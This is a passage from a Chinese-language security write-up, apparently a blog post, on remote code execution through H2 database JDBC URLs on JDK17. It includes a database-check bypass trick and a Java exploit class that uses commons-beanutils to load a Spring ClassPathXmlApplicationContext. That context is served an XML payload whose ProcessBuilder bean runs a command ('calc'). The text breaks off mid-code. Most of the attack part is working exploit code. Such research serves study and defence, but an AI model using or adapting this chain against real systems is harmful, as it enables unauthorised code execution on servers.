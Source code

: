 ```java
        for (byte b : bytes) {
            sb.append(String.format("%02x", b));
        }
        return sb.toString();
    }
}

```

注意此处payload是代码环境，webConsole环境依旧需要数据库存在，或者用前面的`FORBID_CREATION=FALSE;`去绕过webConsole对数据库的检测

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250506143227719.png)

#### ClassPathXmlApplicationContext

1. 利用 commons-beanutils 的 ConstructorUtils 实例化 ClassPathXmlApplicationContext
2. XML 内调用 ProcessBuilder.start 执行命令

需要找到一个能调用构造函数的静态方法，commons-beansutils真是牛逼啊，提供了反射调用 实例方法、静态方法、构造函数 这三种函数的静态调用，很夸张

```java
public static <T> T invokeConstructor(Class<T> klass, Object arg) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException {
    Object[] args = toArray(arg);
    return invokeConstructor(klass, args);
}
```

```java
package org.h2jdbc;

import java.sql.Connection;
import java.sql.DriverManager;
import java.util.ArrayList;
import java.util.List;

public class H2database_JDK17_ClassPathXmlApplicationContext {
    public static void main(String[] args) throws Exception {
        String ClassName = "org.h2.Driver";
        String JDBC_Url = buildExploitJdbcUrl();
        String username = "root";
        String password = "root";
        Class.forName(ClassName);
        Connection connection = DriverManager.getConnection(JDBC_Url, username, password);
    }
    public static String buildExploitJdbcUrl() throws Exception {
        List<String> sqlList = new ArrayList<>();

        // Spring XML Payload
        String xml = "<?xml version=\"1.0\" encoding=\"UTF-8\" ?>\n" +
                "<beans xmlns=\"http://www.springframework.org/schema/beans\"\n" +
                "   xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\n" +
                "   xsi:schemaLocation=\"http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd\">\n" +
                "    <bean id=\"pb\" class=\"java.lang.ProcessBuilder\" init-method=\"start\">\n" +
                "        <constructor-arg>\n" +
                "        <list>\n" +
                "            <value>calc</value>\n"+
                "        </list>\n" +
                "        </constructor-arg>\n" +
                "    </bean>\n" +
                "</beans>";

        // Serve XML file using embedded HTTP server
        byte[] xmlBytes = xml.getBytes("UTF-8");
        WebServer server = WebServer.getInstance();
```